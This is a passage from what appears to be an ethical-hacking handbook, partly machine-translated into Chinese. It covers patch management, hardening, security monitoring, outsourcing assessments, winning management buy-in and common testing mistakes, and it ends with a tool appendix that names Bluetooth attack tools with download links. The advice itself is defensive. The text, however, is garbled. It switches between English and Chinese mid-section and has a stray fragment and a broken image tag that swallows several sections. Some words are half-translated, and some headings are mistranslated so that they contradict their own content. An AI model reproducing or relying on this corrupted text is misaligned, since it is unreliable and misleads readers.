在 `Chapter 17` 中，我介绍了如何判断安全问题的重要性和紧迫性。你还应从时间管理的角度看待安全问题，优先处理既重要（高影响）又紧迫（高可能性）的问题。你大概不想只修复那些*仅*高影响或*仅*高可能性的漏洞。你可能有一些高影响漏洞，但很可能永远不会被利用。同样，你可能有一些高可能性的漏洞，但如果被利用对业务或工作影响不大。这种人类分析和视角让你区别于那些执行扫描并运行评估的普通人（往往以合规为名），并让你更有可能长期保持就业！

优先处理回报最高的任务——那些既高影响又高可能性的任务。这些任务很可能只是你漏洞列表中的少数项。在你修复最关键的安全漏洞后，当时间和金钱允许时，你可以再处理那些不那么重要、不那么紧迫的任务。在你修复诸如 Web 应用中的 SQL 注入以及重要服务器缺失的补丁等关键漏洞后，你可能会想重新配置备份，使用密码（若未使用强加密）来防止窥探者在备份落入错误之手时查看。


Whatever you do, whatever tool you choose, and whatever procedures work best in your environment, keep your systems patched! This rule goes for operating systems; web servers; databases; mobile applications; and even firmware on your network firewalls, routers, and switches. Especially important are third-party software patches from vendors such as Oracle (Java) and Adobe (Reader, Flash, and so on). These patches are overlooked more than most, yet they create considerable risks that go unaddressed.

Patching is avoidable but inevitable. The only way to eliminate the need for patches is to develop secure software in the first place, but that’s not going to happen any time soon, if ever. Software is too complex to be perfect. A large portion of security incidents can be prevented by some good patching practices, so you simply have no reason not to have a solid patch-management process in place.

### Patch management

If you can’t keep up with the deluge of security patches for all your systems, don’t despair; you can still get a handle on the problem. Here are my basic tenets for applying patches to keep your systems secure:

*   Make sure that all the people and departments involved in applying patches on your organization’s systems are on the same page and follow the same procedures.

*   Have formal documented procedures in place for these critical processes: 

    *   Obtaining patch alerts from your vendors, including third-party patches

    *   Assessing which patches affect your systems

    *   Determining when to apply patches

*   Make a policy and have procedures in place for testing patches *before* you apply them to your production servers. Testing patches after you apply them isn’t as big a deal on workstations, but servers are a different story. Many patches have undocumented features and subsequent unintended side effects, which I’ve experienced. An untested patch is an invitation to system termination.

### Patch automation

The following sections describe the various patch deployment tools you can use to lessen the burden of keeping up with patches.

#### Commercial tools

I recommend a robust patch-automation application, especially if these factors are involved:

*   A large network.

*   A network with multiple operating systems (Windows, Linux, Mac OS, and so on).

*   A lot of third-party software applications, such as Adobe and Java.

*   More than a few dozen computers.

Check out these patch-automation solutions:

*   Ecora Patch Manager ([`www.ecora.com/ecora/products/patchmanager.asp`](http://www.ecora.com/ecora/products/patchmanager.asp))

*   GFI LanGuard ([`www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard`](http://www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard))

*   PDQ Deploy ([`https://www.pdq.com/pdq-deploy`](https://www.pdq.com/pdq-deploy))

#### Free tools

Use one of these free tools to help with automated patching:

*   Windows Server Update Services ([`https://technet.microsoft.com/en-us/library/cc539281.aspx`](https://technet.microsoft.com/en-us/library/cc539281.aspx) or System Center Configuration Manager ([`https://www.microsoft.com/en-us/cloud-platform/system-center-configuration-manager`](https://www.microsoft.com/en-us/cloud-platform/system-center-configuration-manager))).

*   Windows Update, which is built into Microsoft Windows operating systems.

*   Microsoft Baseline Security Analyzer ([`https://www.microsoft.com/en-us/download/details.aspx?id=7558`](https://www.microsoft.com/en-us/download/details.aspx?id=7558)).

*   The built-in patching tools for Linux-based systems (such as Yellowdog Updater, Modified \[yum\], and YaST Online Update).

## Hardening Your Systems

In addition to patching your systems, you have to make sure that your systems are *hardened* (locked down) against the security vulnerabilities that patches can’t fix. I’ve found that many people stop with patching, thinking that their systems are secure, but that’s just not the case. Throughout the years, I’ve seen network administrators ignore recommended hardening practices from such organizations as the National Institute of Standards and Technology Computer Security Resource Center ([`http://csrc.nist.gov/publications/PubsSPs.html`](http://csrc.nist.gov/publications/PubsSPs.html)) and the Center for Internet Security ([`www.cisecurity.org`](http://www.cisecurity.org)), leaving many security holes wide open. I believe, however, that hardening systems against malicious attack isn’t foolproof either. Because every system and every organization’s needs are different, there’s no one-size-fits-all solution, so you have to strike a balance without relying on any option too much.

After you apply patches, it’s a good idea to rescan your systems for vulnerabilities to confirm that the patches took.

This book presents hardening countermeasures that you can implement for your network, computers, and even physical systems and people. I find that these countermeasures work best.

Implementing at least basic security practices is critical. Whether you’re installing a firewall on the network or requiring users to have strong passwords via a Windows Active Directory domain GPO, you *must* address the basics if you want any modicum of security. Beyond patching, if you follow the countermeasures I document, add the other well-known security practices for network systems (routers, servers, workstations, and so on) that are freely available on the Internet, and perform ongoing security tests, you can rest assured that you’re doing your best to keep your organization’s information secure.

## Assessing Your Security Infrastructure

Reviewing your overall security infrastructure in the following ways can add oomph to your systems:

*   **Look at how your overall network is designed.** Consider organizational issues, such as whether policies are in place, maintained, or even taken seriously. Physical issues count as well. Determine whether members of management have buy-in on information security and compliance, or whether they simply shrug the measure off as an unnecessary expense or barrier to conducting business.

*   **Map your network by using the information you gather from the security tests in this book.** Updating existing documentation is a major necessity. Outline IP addresses, running services, and whatever else you discover. Draw your network diagram. Network design and security issues are a whole lot easier to assess when you can work with them visually. Although I prefer to use a technical drawing program such as Microsoft Visio or Cheops-ng ([`http://cheops-ng.sourceforge.net`](http://cheops-ng.sourceforge.net)) to create network diagrams, such a tool isn’t necessary. You can draw your map on a whiteboard, as many people do, which is just fine.

    Be sure to update your diagrams when your network changes or once every year or so.

*   **Think about your approach to correcting vulnerabilities and increasing your organization’s overall security.** Are you focusing all your efforts on the perimeter and not on a layered security approach? Think about how most convenience stores and banks are protected. Security cameras focus on the cash registers, teller computers, and surrounding areas — not just on the parking lot or entrances. Look at security from a defense in-depth perspective. Make sure that several layers of security are in place in case one measure fails so that the attacker must go through other barriers to carry out a successful attack.


-   考虑在更高层面上审视安全策略和业务流程。记录已建立的安全策略和流程，并评估其有效性。确定在安全监督和执行方面存在的风险。没有任何组织能免于在此方面出现漏洞。审视组织内部的整体安全文化，从外部视角观察其状态；再从内部视角审视。了解客户或业务合作伙伴对贵组织处理其敏感信息的看法。我可以百分之百有把握，存在一些（可能多个）问题需要在安全的软件层面加以改进。

）上找到大量相关内容。

从高层次、非技术性的角度审视安全，会让您对安全漏洞和整体业务风险获得全新的视角。这一过程需要时间和精力，但在建立安全基线后，管理新出现的威胁和漏洞便显得更为容易。

Chapter 19

## 管理安全流程

IN THIS CHAPTER

**自动化任务**

**监控异常行为**

**将安全测试外包**

**让安全始终在大家的视野中**

信息安全是一项持续的过程，必须随时间持续有效管理才能取得成功。此管理不仅仅是偶尔打补丁、加固系统。反复进行安全测试至关重要；安全漏洞不断出现。换句话说，安全测试是整体信息安全的快照，因此必须持续进行测试以跟上最新的问题。持续的严谨性不仅是为了满足各类法律法规的合规要求，也是降低信息系统相关业务风险的关键。

## 自动化安全评估流程

您可以在本书中对以下安全测试进行大部分自动化：

*   Ping 探测和端口扫描，用于展示可用系统及其运行的服务（这是一个常见的疏忽，往往是更大安全问题的开端）。

*   密码 cracking 测试，用于尝试访问外部 Web 应用、远程访问服务器等。

*   漏洞扫描，用于检查缺失的补丁、配置错误以及可被利用的漏洞。

*   对漏洞的利用（至少在一定程度上）。

您必须拥有合适的工具来自动化这些测试，例如：

*   部分商业工具可以定期执行扫描/检查并生成报告，几乎不需要人工干预——只需在前期进行少量设置和调度时间。这正是我喜欢许多商业（主要自动化）安全测试工具的原因，如 Nexpose 与 Acunetix Web Vulnerability Scanner。这些工具提供的自动化能够为其价格争取正当性，尤其是您无需在凌晨 2 点或全天候待命。

*   独立安全工具（如 Nmap、John the Ripper、Aircrack-ng）虽好，但单靠它们仍不足。您可以编写脚本、使用 Windows 任务计划程序和 AT 命令（Windows）或 cron 作业（Linux）进行自动化，但仍需人工步骤和人类智慧。

这些工具及其他许多工具的链接位于附录。

某些测试和阶段——如新系统的枚举、各类 Web 应用测试、社会工程学以及实体安全巡检——根本无法实现“自动驾驶”。您必须亲自参与。

即使是最聪明的计算机专家系统也无法完成安全测试。良好的安全需要技术专长、经验以及老老实际的常识。

## 监控恶意行为

监控与安全相关的事件是持续安全工作的关键。监控可以是基础且琐碎的，例如每日检查路由器、防火墙和关键服务器的日志文件。高级监控可能包括部署安全事件与事件管理（SIEM）系统，以监控环境中发生的每一件事。常见做法是部署入侵防御系统（IPS）或数据丢失防护（DLP）系统并监测恶意行为。

监控安全事件的难点在于人类觉得它无聊且难以有效执行。每天，您或许会在早上腾出时间——比如第一时间——检查前一晚或周末的关键日志，以挖掘入侵及其他安全问题。但您真的想让自己或他人经历这种“折磨”吗？

手动筛查日志文件可能不是最佳监控方式。以下缺点值得注意：

*   在系统日志中找到关键安全事件十分困难，甚至不可能。这对普通人而言过于繁琐。

*   根据使用的日志类型和安全设备，可能无法捕获某些安全事件，例如 IPS 规避技术以及通过网络允许的端口进行的 exploit。

与其在所有日志文件中翻找难以发现的入侵痕迹，我建议：

*   在合理且可行的范围内启用系统日志记录。您不必捕获所有计算机和网络事件，但应重点关注显性的事件，如登录失败、策略变更和未经授权的文件访问。

*   使用 syslog 将安全事件记录到网络内部或云端的中央服务器上。尽量避免在本地主机上保存日志，以防止恶意分子篡改日志掩盖踪迹。

下面是几种解决安全监控难题的良好方案：

*   **购买事件记录系统。** 低价且有效的方案包括 GFI EventsManager（[www.gfi.com/products-and-solutions/network-security-solutions/gfi-eventsmanager](http://www.gfi.com/products-and-solutions/network-security-solutions/gfi-eventsmanager)）。通常，低价系统仅支持单一操作系统平台，Microsoft Windows 是最常见的。高端解决方案如 ArcSight Data Platform（[`software.microfocus.com/en-us/products/siem-data-collection-log-management-platform/overview`](https://software.microfocus.com/en-us/products/siem-data-collection-log-management-platform/overview)）则提供跨平台日志管理以及事件关联功能，帮助您追踪安全问题的根源以及事件期间受影响的各个系统。

*   **将安全监控外包给云端的第三方托管安全服务提供商（MSSP）。** 互联网兴起时出现了大量 MSSP，但如今只有少数大型公司存续。外包安全监控的价值在于这些公司通常拥有您难以负担或维护的设施和工具。MSSP 还拥有全天候的分析人员，能够将其他客户的安全经验和知识分享给您。


当这些云服务提供商发现安全漏洞或入侵时，通常会立即解决问题，往往无需您的介入。我建议您检查第三方公司及其服务是否可以腾出部分时间和资源，以便您能够专注于其他事项。切勿仅依赖他们的监控工作。云服务提供商可能难以发现内部滥用、社会工程攻击以及通过安全会话（如 HTTPS）传输的 Web 应用程序漏洞利用。您仍需参与。

## 外包安全评估

外包您的安全评估是流行且极好的方式，可让组织获得对其安全态势的中立第三方视角。外包可为您提供一种制衡机制，这是客户、业务合作伙伴、审计员和监管机构所喜欢且常常要求的。

外包漏洞和渗透测试并不便宜。许多组织在测试需求不同的情况下，花费数万美元或更多。您自己完成这些工作同样费用高昂，因为要计入时间、工具以及所需的培训费用。很有可能，自己操作并不如聘请专业服务有效！通过全新的视角获得的中立视角，可能会发现您因“只见树木而看不到森林”而未曾思考的问题。

大量机密信息面临风险，因此您必须信任外部顾问和供应商。在寻找独立专家或供应商合作时，请考虑以下问题：

*   **您的安全提供商是站在您这边，还是主要为自身利益着想？**

*   **供应商是为了寻找您的安全漏洞以便推销产品，还是保持中立，专注于安全评估工作？** 许多供应商会通过推荐其自家产品或与合作伙伴关联的产品和服务来获取额外收益，这些产品和服务可能并非您的真实需求。想象一下，家庭检查员告诉您他能解决他发现的所有问题。请确保任何潜在的利益冲突不会对您的预算和业务造成不利影响。

*   **供应商是否提供其他 IT 或安全服务，还是专注于安全？** 让信息安全专家进行此类测试可能优于与 IT 通用型组织合作。毕竟，您不会聘请一般企业律师处理专利，或请家庭医生进行手术，亦不会请手 yman 重新布线您的房屋。

*   **供应商的招聘与解聘政策是什么？** 请寻找供应商为降低风险所采取的安全和法律措施。例如，是否有员工可能滥用与您的关系？他们是否可能携带敏感信息外泄，或将您的漏洞分享给不需要知晓的人？

*   **供应商是否理解您的业务需求？** 请让供应商在工作说明书中记录您的需求列表，确保双方达成一致。

*   **供应商的沟通能力如何？** 您必须信任供应商及时保持告知并跟进。

*   **您确定谁将执行测试吗？** 了解是否由单一人员完成测试，或由专业领域专家分别负责不同领域。还需确认该人员是否刚毕业，或是否在海外，并判断您是否对其工作充满信心。

*   **供应商是否有经验，能够推荐切实可行且有效的应对措施？** 供应商不应仅交付报告并说“祝您好运”！您需要切实可行的解决方案。

*   **供应商的动机是什么？** 您不希望供应商只为快速获利而提供服务，付出最小努力与价值。您希望供应商致力于建立忠诚关系，实现长期合作。

长期合作的良好组织将使您的持续工作更加简便。向潜在提供商索要多个参考案例。如果组织难以提供参考，请寻找其他提供商。

您的提供商应与您签订包含双方保密条款的合同。请确保双方均签署此合同，以保护贵组织。

## 树立安全意识文化

您的网络用户往往是您的**第一道也是最后一道防线**。确保您的安全测试工作和信息安全计划的投入不会因一个普通员工失误而让恶意攻击者获得入口。

以下元素可帮助在组织中建立安全意识文化：

*   **将安全意识和持续培训作为所有网络用户（包括管理层和承包商）的活动过程。** 仅在新员工入职时进行一次性培训已不足。意识和培训必须定期且持续，以确保安全信息始终在人们心中。

*    **将意识和培训视为长期业务投资。** 安全意识与培训无需昂贵。您可以购买海报、鼠标垫、屏幕保护贴、笔、便签等物品，让安全始终在每个人的视野中。部分创意供应商包括 Greenidea, Inc. ([`www.greenidea.com`](http://www.greenidea.com))、Security Awareness, Inc. ([`www.securityawareness.com`](http://www.securityawareness.com))，以及（我最喜欢的，因创始人 Winn Schwartau 幽默且不 afraid 直言不讳）The Security Awareness Company ([`www.thesecurityawarenesscompany.com`](http://www.thesecurityawarenesscompany.com))。

*   **让管理层了解安全情况并保持知情。** 如果您让管理层对您的工作视而不见，他们很可能永远不会支持您。我在 第 20 章 中介绍了如何获得管理层的支持。

*   **使安全信息与受众匹配，并尽可能保持非技术化。** 向不懂技术的人灌输专业术语只会适得其反。您应以每个受众为切入点，说明安全对他们的影响以及他们如何帮助。

*   **以身作则。** 表明您对安全高度重视，并提供证据说明其他人也应如此。

如果您能获得管理层和用户的支持，并持续投入努力，使安全成为日常业务常规，您就能塑造组织文化。虽过程费力，却能带来超出您想象的安全价值。我亲眼见证了其影响！

## 保持其他安全工作的同步

周期性且持续的安全评估并非信息安全的全部。测试不能保证安全，但它是关键要素之一。此类测试必须融入包含以下内容的持续安全程序中：

*   更高层次的信息风险评估。

*   制定并执行的强力安全政策与标准。

*   经过测试的可靠事件响应与业务连续性计划。

*   有效的安全意识与培训项目。

理想情况下，您的安全程序应通过增加价值或至少保持平衡来产生收益。这些努力可能需要增加人员或外包更多安全帮助。


不要忘记为自己和任何帮助你的同事进行正式培训。你必须持续自我教育，以在安全领域保持领先。认证伦理黑客（CEH）和认证信息系统安全专业人员（CISSP）都是值得追求的认证。我在附录中列出了一些优秀的会议、研讨会和在线资源。

第 7 部分

## 十的部分

在这部分里…

让正确的人站在你这边，确保安全。

理解漏洞和渗透测试对于应对你的安全风险至关重要。

避免 IT 和安全专业人员在测试安全漏洞时常见的错误。

通过工具和相关资源协助你的安全评估和管理工作。

第 20 章

## 获得安全认同的十个建议

获得和维护支持你安全测试工作所需的认同和赞助的关键步骤有很多。本章我描述了我发现的十个最有效的方法。

### 培养盟友和赞助人

虽然著名的泄露事件和合规压力在推动进程，但向管理层推销安全并不是一件你想独自面对的事。找一个盟友——最好是你的直接上级或组织中层以上的人员。选择一位既理解安全测试的价值，也理解整体信息安全价值的人。虽然此人可能无法直接为你发声，但他或她可以作为中立的赞助人被看到，从而提升你的可信度。

### 不要做愚蠢的 FUD 推手

福尔摩斯说：“在拥有数据之前，进行理论化是一个巨大的错误。”要为信息安全和适当的测试争取良好立场，请用相关数据支持你的论点。但不要为了煽动恐惧、不确定性和疑虑（FUD）而夸大其词。业务领导能看透这种手段。专注于用实用建议教育管理层。讨论与威胁成比例的合理恐惧是可以的。但不要像“小鸡·利特尔”那样，总说天空要塌下来。这会让 IT 和安全领域以外的人感到疲惫，长期来看只会伤害你。

### 展示组织无法承受被黑客攻击

说明组织依赖于其信息系统。创建假设情境（即业务影响评估）来展示可能发生的情况、组织声誉可能受损，以及组织可能需要多久无法使用其网络、计算机和数据。询问业务领导如果没有电脑系统和 IT 人员他们会怎么做，以及如果敏感业务或客户信息被泄露他们会怎么做。展示真实的泄露案例，包括恶意软件、物理安全和社会工程等问题。

同时保持积极态度。不要用 FUD（恐惧、不确定性和疑虑）的消极方式向管理层施压，而是让他们了解重要的安全事件。他们很可能已经在主要商业杂志和报纸上阅读相关内容。找出如何将这些故事应用到你的情境中。为了帮助管理层产生共鸣，找到与相似企业、竞争对手或行业相关的故事。

向管理层展示组织*确实*拥有黑客想要的东西。同时也向他们展示内部人员可以利用其访问权限做什么。一个常见的误解是，那些对信息安全威胁和漏洞不了解的人认为组织或网络并不真的有风险。务必指出因黑客攻击可能造成的损失成本，包括：

*   错失机会

*   知识产权泄露

*   赔偿责任问题

*   事件响应和取证成本

*   法律成本和判决

*   合规相关罚款

*   刑事处罚

*   生产力损失

*   更换丢失或损坏的信息或系统的费用

*   修复声誉的成本（建立声誉可能需要一生，而毁掉声誉只需几分钟）

### 阐述安全测试的一般好处

在前一部分列出的潜在成本之外，还要说明主动测试如何发现信息系统中可能被忽视的安全漏洞。告诉管理层，在漏洞和渗透测试（有时称为伦理黑客）的语境下，安全测试是一种像坏人一样思考的方式，以便保护自己免受他们侵害——这在孙子的《孙子兵法》中有详细阐述的“知己知彼”心态。

### 展示安全测试如何具体帮助组织

记录支持整体业务目标的好处，例如：

*   证明安全不需要 ultra-expensive（昂贵），长期来看可以为组织节省金钱。提出以下观点：

    *   先建立安全比事后补加更容易、更便宜。

    *   如果做得当，安全不需要阻碍生产力。

*   讨论如果信息系统安全到位，新产品或服务可以为组织提供竞争优势，前提是满足以下条件：

    *   遵守州、联邦和国际隐私与安全法规。

    *   满足业务合作伙伴和客户的要求。

    *   管理层和公司在客户和业务合作伙伴眼中呈现出可信度。

    *   稳健的安全测试程序和相应的修复流程表明组织正在保护敏感的客户和业务信息。

*   阐述深入安全测试的合规与审计好处。

### 了解业务

了解业务——它是如何运作的，关键人物是谁，以及涉及哪些政治因素。这包括：

*   参加会议以“看与被看”，这能证明你关心业务。

*   作为一名有价值且愿意为业务做出贡献的人。

*   了解你的对手。再次使用“知己知彼”的心态。如果你了解你所面对的内部人员及其可能的异议，获得认同会容易得多。这种方法不仅适用于管理层，也适用于你的同事以及几乎网络上的每个用户。甚至你的董事会成员可能也有疑问和顾虑。

### 建立你的可信度

我认为 IT 和安全专业人士面临的最大障碍之一是人们不“get”我们。你的可信度就是你唯一拥有的资产。专注于以下四个特质来建立并保持它：

*   对组织保持积极态度，证明你真的在认真做事。你的态度至关重要。

*   同情管理层，向他们展示你理解业务方面以及他们所面对的挑战。

*   找到帮助他人获得他们需要的东西的方法，而不仅仅是索取。

*   要创造任何积极的业务关系，你必须值得信赖。如果你随着时间的推移建立信任，推销安全就会变得容易得多。

### 在管理层的层面上发言

虽然听起来很酷，但 IT 和安全领域外的人对“网络战 rior”式的技术话术并不感兴趣。限制或减少你可信度的最佳方式之一是与他人沟通方式不当。与其试图给人留下深刻印象，不如用他们需要听到的语言交流。停止试图给人留下印象。否则，你的话很可能会落在他们听不到的地方，导致你失去可信度。

我见过无数 IT 和安全专业人士在开始讲话时就失去业务领导——一千兆字节；加密协议；包、包、包到处都是！将安全问题与日常业务流程、工作职能和整体目标联系起来，周期。

### 展示你努力的价值


这一项目正是“实践层面”的关键所在。如果你能持续证明你所做的工作为业务带来价值，你就能保持稳健的进度，而无需不断向管理层施压以维持安全测试项目的持续运行。请牢记以下要点：

*   **记录你在 IT 和安全领域的参与情况，并为管理层提供组织安全状况的持续报告。** 向管理层提供组织系统如何（或将如何）免受攻击的具体案例。

*   **以具体结果作为概念验证。** 展示你创建的示例安全评估报告，或你打算使用的安全工具的扫描结果。

*   **将管理层和用户的疑虑、顾虑和异议视为获取更多信息的请求。** 找到答案，并将这些问题视为进一步推广你努力的机会。

### 保持灵活和适应性

做好应对怀疑和拒绝的准备。尽管安全话题备受关注，但拒绝仍时有发生，尤其是来自组织中与 IT 和安全相对脱节的高层管理者。同样，中层管理层如果只会制造复杂性，也是问题的一部分。

`Don’t get defensive. Security is a long-term process, not a short-term assessment, product, or service. Start small. Use a limited amount of resources — such as budget, tools, and time — and then build the program over the long haul.`

`Psychological studies have found that new ideas presented casually and without pressure are more likely to be considered and accepted than ideas that are forced on people under a deadline. If you focus on your approach at least as much as you focus on the content of what you’re presenting, you can often get people on your side, and in return, you’ll accomplish a lot more with your security program.`

第 21 章

## 十个理由：黑客是唯一有效的测试方式

从伦理黑客的视角进行安全测试，不仅仅是为了好玩或炫耀。出于诸多商业原因，它是发现组织中真正重要的安全漏洞的唯一有效方式。

### 坏人会有坏念头，使用好工具，并开发新方法

如果你想跟上外部攻击者和恶意内部人员的步伐，就必须保持最新的攻击方法和工具的更新。我在这本书中会介绍一些最新的技巧、技术和工具。

### IT 治理和合规性不只是高层次检查清单的审计

面对政府和行业法规的重重压力，你的企业几乎没有选择的余地。你必须应对安全问题。问题是，符合这些法律和法规并不自动意味着你的网络和信息是安全的。支付卡行业数据安全标准（PCI DSS）便是例证。无数企业运行漏洞扫描、回答自评问卷，并认为他们已经完成了管理信息安全计划的所有必要工作。同样的情况也适用于符合一般数据保护条例（GDPR）和健康保险可移植性和责任法案（HIPAA）。

你必须摘下合规审计的盲目眼镜，从以合规为中心的方法转向以风险为中心的方法。利用本书涵盖的工具和技术，你可以更深入地挖掘对你业务造成最大挑战的漏洞。

### 漏洞扫描和渗透测试补充审计和安全评估

毫无疑问，你组织中有人比你更了解高层安全审计，但如果你能说服他们进行更深入的安全测试，并将其纳入现有的安全计划（如内部审计和合规性检查），审计过程将更深入，结果也会更好。人人皆胜。

### 客户和合作伙伴会询问你的系统有多安全

许多企业现在要求对其业务合作伙伴进行深入的安全评估，同理也适用于某些客户。规模较大的公司几乎总是想知道其信息在被处理或存储于你的环境中时的安全程度。你不能依赖数据中心审计报告（如 commonly referenced SSAE18 Service Organizational Controls (SOC 2) 标准）来获取数据中心安全审计信息。唯一确定现状的方法是使用本书涵盖的方法和工具。

### 平均规律对企业不利

信息系统日益复杂化，字面意义上。随着云计算、虚拟化和移动设备在企业中居于核心位置，IT 和安全管理者保持跟上节奏变得越来越困难。这些复杂性最终会对你不利，而有利于坏人。犯罪黑客只需找到一个关键漏洞即可成功。而你必须找出（并修复）所有漏洞，或者至少是那些造成最大漏洞的漏洞。

如果你想保持知情并确保关键业务系统（及其处理和存储的敏感信息）的安全，你必须以恶意心态看待问题，并定期、持续地进行观察，而不仅仅是一次或不时进行。

### 安全评估能改善对业务威胁的理解

你可以说密码很弱或补丁缺失，但利用这些漏洞进行利用并展示结果是完全不同的事情。没有比展示我在这本书中描述的测试方法的结果更能证明问题的存在，并激励管理层采取行动了。

### 如果发生泄露，你有依据可依

在恶意内部人员或外部攻击者 breaches 你的安全，或你的业务因违法或不符合法律法规而被起诉、或业务合规性受损的情况下，管理层至少可以证明它通过适当的测试正在履行其发现安全风险的尽职调查义务。你必须确保适当的测试确实在进行！

相关且可能出现的问题之一是知道存在问题却未加以修复。你不想让律师及其专家证人指出你的企业在安全测试或后续跟进上存在懈怠。

### 深入测试会暴露出系统的最坏一面

有人在做自我评估或高层审计时，可能会发现你漏掉的安全最佳实践，但他不会发现大多数通过深入的安全漏洞和渗透测试能够揭示的安全漏洞。我在这本书中描述的测试方法能够让系统的所有缺陷（warts and all）显露无遗。

### 结合漏洞扫描和渗透测试是你需要的

单独进行渗透测试通常不足以发现系统中的所有问题，因为传统渗透测试的范围太有限。基本漏洞扫描也如此。当你结合这两种方法时，你将获得物超所值的回报。

### 适当的测试能揭示被忽略的弱点

进行适当的安全评估不仅能揭示技术、物理和人为弱点，还能揭示 IT 和安全运营中的根本原因，如补丁管理、变更管理和缺乏用户意识。否则，你可能直到为时已晚才发现这些弱点。

第 22 章

## 十个致命错误

在你的安全测试中做出错误的选择会对你的工作乃至职业产生灾难性影响。在这一章中，我讨论了在执行安全评估工作时需要格外警惕的十个潜在陷阱。

### 未获得批准


-   在获得事先的书面批准后，例如电子邮件、内部备忘录或正式合同，用于你的安全测试工作（无论是来自管理层还是客户）是必须的。除了可能影响你测试的法律条文之外，它是你的“脱罪”凭证。

![warning 不要做任何例外 —  — 尤其是当你为客户进行工作时。确保将此文档的签署副本存档以确保你受到保护。## 假设你能找到所有漏洞所以多种安全漏洞 —  — 已知和未知 —  — 你无法在测试中找到它们全部。不要保证你能找到系统中的*所有*安全漏洞。你正在做一件你无法完成的事。坚持以下原则：*   保持现实。*   使用良好的工具。*   了解你的系统，并练习磨练你的技巧。*   随时间改进。我在 第 5 章 到 第 16 章 以各种方式介绍这些规则。## 假设你能消除所有漏洞在网络、计算机和应用程序方面，绝对安全是不可实现的。你不可能防止*所有*安全漏洞，但如果你发现低挂果实 —  — 即造成大多数风险的那些漏洞 —  — 并完成以下任务，你会做得很好：*   遵循稳健的实践。几十年来一直存在的安全基础。*   修补并加固你的系统。*   根据你的预算和业务需求，在可行的地方应用合理的安全对策。许多章节，如 第 4 部分 中的操作系统章节，都涵盖这些领域。还要记住，你会有未计划的费用。你可能会发现很多安全问题，需要预算来填补这些漏洞。也许你现在面临“应有尽有”的问题，必须修复发现的问题。因此，你需要从风险的角度来处理信息安全，并确保所有相关人员都在位置上。## 只进行一次测试安全评估只是你整体安全状态的瞬间快照。新的威胁和漏洞不断出现，因此你必须定期、持续地进行这些测试，以确保你跟上最新的安全防护措施。为未来几个月和几年制定短期和长期的安全测试计划。## 假设你一无所知尽管有些 IT 领域的人不同意，但没有人在 IT 或信息安全领域完全懂得一门之隔。跟上所有软件版本、硬件型号和新兴技术，更不用说相关的安全威胁和漏洞，是不可能的。真正的 IT 和信息安全专业人员知道自己的局限 —  — 即他们*不知道*什么。他们*知道*在哪里可以通过各种在线资源找到答案，例如我在附录中列出的那些。## 在不从黑客视角审视时运行测试思考恶意外部人员或背叛内部人员如何攻击你的网络和计算机。获取全新视角；尝试超出传统思维，思考系统如何被取 offline，信息如何被窃取，等等。研究罪犯和黑客的行为以及常见的攻击手法，以便知道在哪里进行测试。我一直在 [`www.principlelogic.com`](https://www.principlelogic.com) 博客记录此主题。查看附录，获取其他值得信赖的资源，帮助你在这方面。

### 没有测试正确的系统

专注于最重要的系统和信息。你可以整天在运行 Windows XP 的独立台式机或培训室打印机上进行黑客攻击，但这有什么用处？可能没有，但你永远不知道。你的最大风险可能就在看似最不重要的系统上。专注于既*紧急*又*重要*的内容。

### 没有使用正确的工具

没有正确的工具就无法完成任务，这与在家里、修车或园艺时一样，良好的工具是必须的。下载我在本书和附录中提到的免费和试用工具。如果可以，购买商业工具；它们通常物超所值。没有任何一种安全工具能做所有事情。

构建你的工具箱并熟悉你的工具将节省大量精力，让你以出色的成果 impress 他人，并帮助最小化企业的风险。

### 在错误的时间攻击生产系统

一种最佳方式是让你的经理或客户失去信任 —  — 在所有人使用系统时对生产系统进行安全测试。对于运行老旧、脆弱操作系统或遗留应用程序的公司来说，此问题尤为严重。如果你在错误的时间测试系统，你可能会在最糟糕的时刻对关键系统产生负面影响。

确保你知道最佳测试时间，这可能是深夜。 (我并没有说信息安全测试是轻松的！) 奇怪的测试时间可能正当使用安全工具和其他辅助 utilities 自动化某些任务，例如允许你在特定时间运行漏洞扫描仪。

### 外包测试且不保持参与

外包是件好事，但你必须在整个过程中保持参与。不要在未经跟进的情况下将安全测试的 reins 交给第三方顾问或托管服务提供商。除非你想让经理或客户失望，否则不要让第三方供应商的工作闲置。除非他们像我一样光头（但你懂我的意思），否则要让他们“头疼”。你不能外包责任，所以保持联系！

附录

## 工具和资源

要跟上最新和最好的安全测试工具和资源，你需要知道去哪里。本附录包含我最喜欢的安全网站、工具、资源和更多，可帮助你在持续的安全评估程序中受益。

本书的在线快速参考包含本附录中列出的所有在线工具和资源的链接。请访问 [www.dummies.com/cheatsheet/hacking](http://www.dummies.com/cheatsheet/hacking) 查看。

### 高级恶意软件

Carbon Black — [`https://www.carbonblack.com/products/solutions/use-case`](https://www.carbonblack.com/products/solutions/use-case)

Core Network Insight — [`https://www.coresecurity.com/network-insight`](https://www.coresecurity.com/network-insight)

### 蓝牙

Blooover — [`https://trifinite.org/trifinite_stuff_blooover.html`](https://trifinite.org/trifinite_stuff_blooover.html)

BlueScanner — [`https://sourceforge.net/projects/bluescanner`](https://sourceforge.net/projects/bluescanner)

Bluesnarfer — [`www.alighieri.org/tools/bluesnarfer.tar.gz`](http://www.alighieri.org/tools/bluesnarfer.tar.gz)

BlueSniper Rifle — [`http://www.tomsguide.com/us/how-to-bluesniper-pt1,review-408.html`](http://www.tomsguide.com/us/how-to-bluesniper-pt1,review-408.html)

BTScanner for XP — [`www.pentest.co.uk/src/btscanner_1_0_0.zip`](http://www.pentest.co.uk/src/btscanner_1_0_0.zip)

Car Whisperer — [`https://trifinite.org/trifinite_stuff_carwhisperer.html`](https://trifinite.org/trifinite_stuff_carwhisperer.html)

Smurf — [`www.gatefold.co.uk/smurf`](http://www.gatefold.co.uk/smurf/)

### 认证

Certified Information Security Manager — [`www.isaca.org/Certification/CISM-Certified-Information-Security-Manager/Pages/default.aspx`](http://www.isaca.org/Certification/CISM-Certified-Information-Security-Manager/Pages/default.aspx/)


Certified Information Systems Security Professional — [`https://www.isc2.org/Certifications/CISSP`](https://www.isc2.org/Certifications/CISSP)

Certified Wireless Security Professional — [`http://www.cwnp.com/certifications/cwsp`](http://www.cwnp.com/certifications/cwsp)

CompTIA Security+ — [`https://certification.comptia.org/certifications/security`](https://certification.comptia.org/certifications/security)

SANS GIAC — [`https://www.giac.org`](https://www.giac.org)

### 数据库

Advanced SQL Password Recovery — [`www.elcomsoft.com/asqlpr.html`](http://www.elcomsoft.com/asqlpr.html)

